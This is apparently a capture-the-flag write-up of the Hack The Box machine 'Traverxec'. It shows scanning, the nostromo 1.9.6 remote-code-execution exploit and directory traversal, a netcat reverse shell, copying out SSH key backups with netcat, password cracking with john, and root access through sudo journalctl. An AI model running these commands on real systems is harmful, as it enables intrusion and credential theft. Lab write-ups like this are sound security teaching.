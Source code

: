 # Traverxec
Box IP **10.10.10.165**


### Nmap scan

```bash
$ nmap -sC -sV -T5 -v traverxec.htb
```

### Services
```bash
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
```

Surfing to https://10.10.10.165 a website shows up

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Traverxec/src/1.png" alt="1" />
</p>


### Fuzzing

Trying to fuzz for web directories, but nothing shows up
```bash
$ gobuster dir -u http://10.10.10.165 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.log
```


### Getting a shell

Searching for **nostromo 1.9.6** we find a RCE vulnerability
```bash
$ searchsploit nostromo
nostromo 1.9.6 - Remote Code Execution | exploits/multiple/remote/47837.py
$ searchsploit -m exploits/multiple/remote/47837.py
```

Playing with the payload we notice first a directory traversal vulnerability.
By requesting http://10.10.10.165/.%0D./ the server replies with the parent directory of the **server root**

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Traverxec/src/2.png" alt="1" />
</p>


This means we can request arbitrary file from the file system, such as **/etc/passwd**
```bash
$ curl http://10.10.10.165/.%0D./.%0D./.%0D./etc/passwd
root:x:0:0:root:/root:/bin/bash
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
david:x:1000:1000:david,,,:/home/david:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

```

The exploit execute a commands passed as argument in the **/bin/sh** shell

```bash
$ python 47837.py 10.10.10.165 80 "id"
Sending:
POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
Content-Length: 1

echo
echo
id 2>&1
HTTP/1.1 200 OK
Date: Wed, 15 Apr 2020 19:54:08 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can open a reverse shell

```bash
$ python 47837.py 10.10.10.165 80 "nc -e /bin/bash 10.10.14.55 4444"

$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.55] from (UNKNOWN) [10.10.10.165] 37046
whoami
www-data
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@traverxec:/usr/bin$
```

### Lateral movement

The **/etc/passwd** ﬁle reveals a user named **david**.

Looking up the Nostromo doc, we find that the document root is **/var/nostromo/**.

The folder **/var/nostromo/conf** contains the web server conﬁguration ﬁles.

We find interesting information in **nhttpd.conf** and **.htpasswd**.

```bash
www-data@traverxec:/usr/bin$ cat /var/nostromo/conf/nhttpd.conf
cat /var/nostromo/conf/nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www

www-data@traverxec:/usr/bin$ cat /var/nostromo/conf/.htpasswd  
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
www-data@traverxec:/usr/bin$
```

The cracked hash is **Nowonly4me** but it turns out to be of no use.

The HOMEDIRS indicates **public_www** folder in the user's home directory.

David's home is not readble but this dir is accessible and contains a backup file.

```bash
www-data@traverxec:/home/david$ ls
ls
ls: cannot open directory '.': Permission denied

www-data@traverxec:/home/david$ ls public_www
ls public_www
index.html  protected-file-area

www-data@traverxec:/home/david$ cd public_www/protected-file-area
cd public_www/protected-file-area

www-data@traverxec:/home/david/public_www/protected-file-area$ ls
ls
backup-ssh-identity-files.tgz
```

We get the file
```bash
$ nc -nlvp 1234 < bk.tgz

www-data@traverxec:/home/david$ nc 10.10.14.55 1234 < /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz

$ tar -xvf bk.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

The backup contains the **ssh keys** of david.

The sk is encrypted and we use john for that.

```bash
$ chmod 400 id_rsa
$ locate ssh2john
$ python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
$ john -wordlist:/usr/share/wordlists/rockyou.txt id_rsa.hash
```

The extracted password is **hunter**.

Now we can ssh as david and get the user flag in **/home/david**

```bash
$ ssh -i id_rsa david@10.10.10.165
The authenticity of host '10.10.10.165 (10.10.10.165)' can't be established.
ECDSA key fingerprint is SHA256:CiO/pUMzd+6bHnEhA2rAU30QQiNdWOtkEPtJoXnWzVo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.165' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ pwd
/home/david
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ wc user.txt
 1  1 33 user.txt
```


### Privilege Escalation

The **bin** directory contains the **server-stats.sh** file.

```bash
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

The user david can run journalctl with root privileges. This coomand is [exploitable](https://gtfobins.github.io/gtfobins/journalctl/) since invokes the default pager **less**, which can run shell commands by prefixing **!**.

```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Thu 2020-04-16 13:59:24 EDT, end at Thu 2020-04-16 15:02:30 EDT. --
Apr 16 13:59:28 traverxec systemd[1]: Starting nostromo nhttpd server...
Apr 16 13:59:28 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) afte
Apr 16 13:59:28 traverxec nhttpd[458]: started
Apr 16 13:59:28 traverxec nhttpd[458]: max. file descriptors = 1040 (cur) / 1040 (max)
Apr 16 13:59:28 traverxec systemd[1]: Started nostromo nhttpd server.
!/bin/sh
# whoami
root
```

The root flag is located in **/root**


If you liked this write-up, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
